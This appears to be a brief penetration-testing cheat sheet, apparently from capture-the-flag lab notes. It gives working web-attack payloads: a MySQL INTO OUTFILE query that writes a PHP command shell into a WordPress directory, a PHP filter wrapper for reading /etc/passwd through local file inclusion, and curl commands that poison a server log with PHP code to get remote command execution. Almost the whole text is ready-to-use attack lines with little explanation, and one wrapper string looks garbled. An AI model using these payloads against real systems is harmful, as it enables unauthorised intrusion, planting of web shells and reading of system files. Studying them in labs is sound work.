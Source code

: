 
#### RCE through mysql queries
```
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/wordpress/shell.php"

```


### LFI
##### use php wrappers during lfi to read php specific files that are otherwise unreadable
```

	file=filter/read=string.rot13/resource=/etc/passwd


```

#### log poisoning
```
we can inject malicious payload into popular applications log files and retrieve them through LFI to get RCE
This is log poisoning

change user agent to this

	curl -A "<?php phpinfo();?>" http://10-10-89-133.p.thmlabs.com/login.php
	curl -A "<?php system($_GET['cmd']); ?>" http://10-10-89-133.p.thmlabs.com/login.php
	page link file=/var/log.log&cmd=ifconfig



```

